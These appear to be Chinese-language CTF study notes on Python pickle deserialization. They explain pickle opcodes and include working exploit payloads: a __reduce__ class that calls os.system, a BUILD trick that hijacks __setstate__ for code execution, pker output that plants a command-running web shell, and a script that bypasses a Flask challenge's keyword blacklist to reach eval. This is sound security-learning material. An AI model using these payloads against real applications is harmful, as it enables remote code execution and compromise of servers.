



### pickle



注意：自己定义的class，一定要把初值写进`__init__`。

`pickle.loads`是一个供调用的接口，其底层实现是基于`_Unpickler`类。

利用`pickletools`可以反汇编一个已经被打包的字符串、优化一个已经被打包的字符串、返回一个迭代器来供程序使用。



1. `\x80`：机器立刻再去字符串读取一个字节，得到协议号。
2. `c`：GLOBAL操作符，连续读取两个字符串，规定以`\n`为分割，接下来把其压进栈。
3. `)`：把一个空的tuple压入当前栈。
4. `x81`：从栈中先弹出一个元素，记为`args`；再弹出一个元素，记为`cls`。
   1. 执行`cls.__new__(cls, *args)` ，然后把得到的东西压进栈。
   2. 从栈中弹出一个参数和一个class，然后利用这个参数实例化class，把得到的实例压进栈。
5. `}`：把一个空的dict压进栈。
6. `MARK`：
   1. `load_mark`：
      1. 把当前栈这个整体，作为一个list，压进前序栈。
      2. 把当前栈清空。
   2. `pop_mark`：它没有操作符，只供其他的操作符来调用。
      1. 记录一下当前栈的信息，作为一个list，在`load_mark`结束时返回。
      2. 弹出前序栈的栈顶，用这个list来覆盖当前栈。
7. `V`：读入一个字符串，以`\n`结尾，然后把这个字符串压进栈中。
8. `u`操作符：
   1. 调用`pop_mark`，把当前栈的内容扔进一个数组`arr`，然后把当前栈恢复到MARK时的状态。
   2. 执行完成之后，`arr=['name', 'rxz', 'grade', 'G2']`，当前栈里面存的是`__main__.Student`这个类、一个空的`dict`。
   3. 拿到当前栈的末尾元素，规定必须是一个`dict`。这里，读到了栈顶那个空`dict`。
   4. 两个一组地读`arr`里面的元素，前者作为key，后者作为value，存进上一条所述的`dict`。
9. `b：BUILD指令。`
   1. 把当前栈栈顶存进`state`，然后弹掉。
   2. 把当前栈栈顶记为`inst`，然后弹掉。

### pickletools

帮助理解pickle。

```python
import pickle
import pickletools

tmp = """(cbuiltins
globals
oq\x00X\t\x00\x00\x00blacklistq\x01}q\x02s.""".encode()
unpickled_data = pickle.loads(tmp)
parsed_data = pickletools.dis(tmp)
print(parsed_data)

#     0: (    MARK
#     1: c        GLOBAL     'builtins globals'
#    19: o        OBJ        (MARK at 0)
#    20: q    BINPUT     0
#    22: X    BINUNICODE 'blacklist'
#    36: q    BINPUT     1
#    38: }    EMPTY_DICT
#    39: q    BINPUT     2
#    41: s    SETITEM
#    42: .    STOP
# highest protocol among opcodes = 1
# None
```

### 利用

##### `__reduce__`

`__reduce__`方法的指令码是`R`，其作用为：

- 取当前栈的栈顶记为`args`，然后把它弹掉。
- 取当前栈的栈顶记为`f`，然后把它弹掉。
- 以`args`为参数，执行函数`f`，把结果压进当前栈。

```Python
class obj():
    def __init__(self):
        ...
    def __reduce__(self):
        return (os.system, ('ls /',))
```

#####  Build指令

逻辑：如果`inst`拥有`__setstate__`方法，则把`state`交给`__setstate__`方法来处理；否则的话，直接把`state`这个`dist`的内容，合并到`inst.__dict__ `里面。


如果对象原先是没有`__setstate__`这个方法的，那么利用`{'__setstate__': os.system}`来BUILE这个对象，那么现在对象的`__setstate__`就变成了`os.system`；接下来利用`"ls /"`来再次BUILD这个对象，则会执行`setstate("ls /")` ，而此时`__setstate__`已经被设置为`os.system`，因此实现了RCE。



#### pker

[EddieIvan01/pker: Automatically converts Python source code to Pickle opcode ](https://github.com/eddieivan01/pker)

使用pker可以帮助构造payload。

```shell
PS ...> Get-Content .\exp.py | python .\pker.py
b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'exec\'\ntRp6\n0g6\n(S\'index.GET = lambda self:__import__("os").popen(web.input().cmd).read()\'\ntR.'
```

### Challenge

#### 黑名单

```python
import base64
import pickle
from flask import *
import builtins
import io

app = Flask(__name__)
blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit', 'system', 'env'}

class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))

def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()

@app.route('/',methods=['GET'])
def index():
    args = request.args
    if not args.get('data'):
        return "none"
    else:
        pickle_data = args.get('data').encode('utf-8')
        try:
            tmp = base64.b64decode(pickle_data)
            for i in blacklist:
                if i.encode("utf-8") in tmp:
                    raise pickle.UnpicklingError("%s is forbidden" % i)
                    continue
            data = restricted_loads(tmp)
            return "<script>alert('OK')</script>"
        except Exception as e:
            print("Error", e)
            return "<script>alert('Error')</script>"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=9999)
```

利用反序列化将blacklist置为空，然后再利用。

```python
import base64
import pickle
import pickletools
import pker

blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit', 'env', 'system'}

data = {'blacklist': {}}
pickle_string = pickle.dumps(data, protocol=1)
print(pickle_string)
tmp = """(cbuiltins
globals
oq\x00X\t\x00\x00\x00blacklistq\x01}q\x02s.""".encode()
# unpickled_data = pickle.loads(tmp)
# parsed_data = pickletools.dis(tmp)
# print(parsed_data)
print(base64.b64encode(tmp))

payload = '''
globa1=GLOBAL("builtins","globals")
glob=globa1()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
builtins=get(glob,"__builtins__")
eval=getattr(builtins,"eval")
eval('__import__("os").system("calc")')
return'''

payload = pker.cons(payload)
print(payload)
payload = base64.b64encode(payload)
print(payload)
```


